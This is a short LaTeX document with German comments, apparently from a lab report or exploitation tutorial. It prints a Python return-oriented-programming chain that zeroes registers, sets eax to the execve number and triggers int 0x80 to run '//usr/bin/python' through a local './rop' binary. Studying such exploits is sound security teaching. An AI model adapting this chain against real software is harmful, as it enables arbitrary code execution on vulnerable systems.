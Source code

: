 \documentclass[]{scrreprt}
\begin{document}
\begin{lstlisting}[frame=single]
#xor eax, eax; eax = 0 setzen
rop += '\xd0\x5e\x05\x08'

#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#Wert von Adresse des ESI-Pointers auf 0 setzen
#x90 = padding
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x84\xce\xff\xff'

#cdq; edx = 0setzen
rop += '\xf5\xce\x05\x08'

#pop ebx;
#ebx zeigt nun auf den String '//usr/bin/python'
rop += '\xc9\x81\x04\x08'
rop += '\x70\xce\xff\xff'

#eax auf 0xb setzen
#inc eax;
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
	
#xor ecx, ecx; int 0x80
#ecx leeren und interrupt ausfuehren
rop += '\x21\xec\x06\x08'

print(rop)
\end{lstlisting}
Eingabe von \texttt{./rop "\$(python ropChain.py)"} in der Shell liefert:
\begin{figure}[h]
	\centering
	\texttt{[image: figure/hello]}
	\caption{Ergebnis vom Ausführen des Codes \texttt{ropChain.py}}
\end{figure}
\end{document}
